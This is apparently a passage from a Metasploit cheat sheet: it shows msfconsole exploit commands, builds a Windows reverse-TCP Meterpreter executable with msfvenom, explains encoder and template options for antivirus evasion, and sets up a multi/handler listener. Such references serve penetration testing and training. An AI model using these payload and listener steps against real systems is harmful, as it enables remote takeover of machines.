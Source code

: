 - Running an exploit:

```bash
msf6 > exploit                 # run in the foreground (interactive)
msf6 > exploit -j              # run as a background job
msf6 > exploit -z              # often used to background; behavior depends on module
```

---

## msfvenom — payload generation (best practices)

- Basic example:

```bash
# reverse Meterpreter as a Windows executable
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe > payload.exe
```

- Common options:
  - `-p` — payload (e.g., `windows/meterpreter/reverse_tcp`)
  - `LHOST` / `LPORT` — listener host/port
  - `-f` — format (`exe`, `elf`, `raw`, `ps1`, `asp`, `jar`, `macho`, etc.)
  - `-a` / `--platform` — architecture/platform (e.g., `-a x64 --platform windows`)
  - `-b` — badchars to exclude
  - `-i` / `-e` — iterations and encoder (note: encoders do not reliably bypass modern AV)
  - `-x template.exe` — use a template binary
  - Redirect output with `> file` to save the generated payload

- Encoders should be used with caution — they are not a guaranteed AV-evasion method and must be validated in a test environment.

---

## Multi/Handler (listeners)

```bash
# configure a handler
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.0.0.5
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > set ExitOnSession false   # keep the handler running
msf6 exploit(multi/handler) > exploit -j
```

- Notes: `exploit/multi/handler` usually runs as a job. After a session connects, use `sessions -l` and `sessions -i <id>` to interact. If sessions drop unexpectedly, check `ExitOnSession` and running jobs.

---

## Meterpreter — common commands (summary)

- Help / system info:
